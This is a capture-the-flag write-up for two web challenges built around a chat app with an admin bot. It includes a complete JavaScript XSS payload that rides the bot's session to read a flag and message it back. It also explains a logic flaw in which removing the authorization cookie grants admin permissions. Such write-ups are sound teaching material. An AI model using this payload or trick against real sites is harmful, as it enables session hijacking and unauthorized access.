








# The Genie's pwn adventures



The webiste has muliple interesting parts :

In app.py : 
```python
# Route for user login
@app.route('/login', methods=["GET", "POST"])
def login():
    if request.method == "GET":
        response = make_response(render_template('login.html'))
        if request.cookies.get('authorization') is None:
            response.set_cookie('authorization', create_cookie(), httponly=True)
        return response
    elif request.method == "POST":
        username = request.form.get('username')
        password = request.form.get('password')

        user = Users.query.filter_by(username=username).first()
        if not user or not check_password_hash(user.password, password):
            flash("Invalid username or password", "danger")
            return render_template('login.html')

        flash("You have been logged in", "success")
        authentication_cookie = create_cookie()
        response = make_response(redirect("/chat", code=302))
        response.set_cookie('authentication', authentication_cookie, httponly=True)
        user.authentication_cookie = authentication_cookie
        user.authorization_cookie = request.cookies.get("authorization")
        db.session.commit()
        return response
```

```python
# Route for the chat page
@app.route('/chat', methods=["GET"])
def chat():
    authentication_cookie = request.cookies.get("authentication")
    user = Users.query.filter_by(authentication_cookie=authentication_cookie).first()
    if not user:
        flash("You're not logged in", "danger")
        return redirect("/login", code=302)
    return render_template('chat.html', user=user)
```

```python
# Route for retrieving the flag
@app.route('/flag', methods=["GET"])
def flag():
    authentication_cookie = request.cookies.get("authentication")
    user = Users.query.filter_by(authentication_cookie=authentication_cookie).first()
    if not user:
        flash("You're not logged in", "danger")
        return redirect("/login", code=302)

    username = user.username
    perms = is_admin(request.cookies.get("authorization"))
    if username != "admin" and perms:
        return Config.FLAG
    else:
        return "Nope"
```

We can see that in order to get the flag we need to get `/flag` with the authorization cookie of an admin, but the user needs to be different than admin (which is the account used by the bot).

When we send a message, we can see that the bot answers a few seconds after.



Moreover, the messages are vulnerable to XSS.



Let's see what the bot does.

When we he reiceves a message, the method `action` is called

```python
def action():
    driver = setup_driver()
    authorization_cookie, authentication_cookie = login(driver)
    if authentication_cookie is None or authorization_cookie is None:
        """If there was a bug, retry to login"""
        print("[BOT] Retrying to login")
        authorization_cookie, authentication_cookie = login(driver)
        send_messages(driver, authentication_cookie["value"], authorization_cookie["value"])
        return
    send_messages(driver, authentication_cookie["value"], authorization_cookie["value"])
    return
```

This function authenticates the user and answers to us.

```python
def login(driver):
    driver.get(BASE_URL + "/login")
    username, password = get_admin_credentials()
    username_input = driver.find_element(By.ID, "username")
    username_input.send_keys(username)

    password_input = driver.find_element(By.ID, "password")
    password_input.send_keys(password)

    login_button = driver.find_element(By.ID, "submit")
    login_button.click()
    print(f"Logged in as {username} with password {password}.")

    time.sleep(3)

    authorization = driver.get_cookie("authorization")
    authentication = driver.get_cookie("authentication")
    print(authorization)
    print(authentication)
    return authorization, authentication

def send_messages(driver,authentication, authorization):
    cookies = {
        "authorization" : authorization,
        "authentication" : authentication
    }

    # List of phrases
    phrases = [
        "He insisted that it's your turn to pay this time.",
        "She hinted that it would be nice if you covered the bill.",
        "They suggested splitting the bill, but conveniently forgot their wallet.",
        "He casually mentioned that you owe him for the last meal.",
        "She jokingly said it's your treat for the evening.",
        "They playfully argued about whose turn it is to foot the bill.",
        "He slyly suggested that you should pick up the tab.",
        "She tactfully reminded you that it's your shout tonight."
    ]

    users = Users.query.filter_by(is_admin=0).all()
    for user in users:
        content = choice(phrases)
        form = {
            "destination_username": user.username,
            "content": content
        }
        post(BASE_URL + "/messages", cookies=cookies, data=form)

    driver.quit()
    return
```

We can see that in the login, the bot does a get request to the login page, enters the crednetials and submits them. During the 3s of `time.sleep`, the website redirects him to the home page which contains our message (with the XSS). This means we have 3s to do whatever we want with him.


The plan is to get the flag with his session and send the content in a message with another request. The problem is that his username is curently admin, so the condition `if username != "admin" and perms` prevents him to get the flag.

To fix this problem, we can look at the login endpoint. This endpoint only modifies the `authentication` (used to get the username) and not the `authorization` (used to get the permissions).

The chain that the bot needs to execute is :
- login with his credentials (done before the XSS)
- login with our credentials (only changes authentication cookie)
- get /flag
- send it by message

To do it, we used the account `a` and the following javascript code :

```js
fetch("/login", 
    {
        "headers": 
        {
            "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
            "accept-language": "fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7,zh;q=0.6",
            "cache-control": "no-cache",
            "content-type": "application/x-www-form-urlencoded",
            "pragma": "no-cache",
            "sec-gpc": "1",
            "upgrade-insecure-requests": "1"
        },
        "referrer": "/login",
        "referrerPolicy": "strict-origin-when-cross-origin",
        "body": "username=a&password=a",
        "method": "POST",
        "mode": "cors",
        "credentials": "include"
    
    }).then((r) => {
        fetch("/flag", 
        {
            "headers": 
            {
                "accept": "*/*",
                "accept-language": "fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7,zh;q=0.6",
                "cache-control": "no-cache",
                "pragma": "no-cache",
                "sec-gpc": "1",
                "x-requested-with": "XMLHttpRequest"
            },
            "referrer": "/chat",
            "referrerPolicy": "strict-origin-when-cross-origin",
            "mode": "cors",
            "credentials": "include" 
        }).then((r) => r.text().then((t) => {
            fetch("/messages", {
                "headers": 
                {
                    "accept": "*/*",
                    "accept-language": "fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7,zh;q=0.6",
                    "cache-control": "no-cache",
                    "content-type": "application/x-www-form-urlencoded; charset=UTF-8",
                    "pragma": "no-cache",
                    "sec-gpc": "1",
                    "x-requested-with": "XMLHttpRequest"
                },
                "referrer": "/chat",
                "referrerPolicy": "strict-origin-when-cross-origin",
                "body": "content="+encodeURIComponent(t+" | "+document.querySelector("#header > div.menu > div > a > div.menu-text.d-sm-block.d-none.w-170px").textContent)+"&destination_username=a",
                "method": "POST",
                "mode": "cors",
                "credentials": "include" 
            })
        }))
    }
)
```

When we send the message, the script disconnects us, when we reconnect, we can see the flag in the messages.




# The Genie's pwn adventures revenge (unintended)



The revenge changes only the `/flag` endpoint.

```python
# Route for retrieving the flag
@app.route('/flag', methods=["GET"])
def flag():
    authentication_cookie = request.cookies.get("authentication")
    user = Users.query.filter_by(authentication_cookie=authentication_cookie).first()
    if not user:
        flash("You're not logged in", "danger")
        return redirect("/login", code=302)

    username = user.username
    perms = is_admin(request.cookies.get("authorization"))
    if "127.0.0.1" in request.remote_addr or "::1" in request.remote_addr or username == "admin": # Worty is too strong as always
        return "Nope"
    if perms:
        return Config.FLAG
    return "Nope"
```

It's not possible to use our payload anymore, because the bot uses `http://localhost:5000` as url base, so, the httpOnly cookies are set for the domain localhost (which means remote_addr=127.0.0.1).

To do this one, we found a totally different vulnerability.

When intializating the database for the first time, it sets the `authentication` and `authorization` values to none. It's only at the first login that these fields are filled with the cookies. So if we never send a message to the admin, he never logs in, which means `perms = is_admin(None) -> True`. So, we only need to, create and account and login whith it, then delete the `authorization` cookie (sets the value to None) and finally get the `/flag` endpoint. We are a diffrent user than admin, we have a remote address and perms is True.




Simply remove every cookie except `authentication`.



Get `/flag`.



And here we got the flag.


Thanks for the challenges.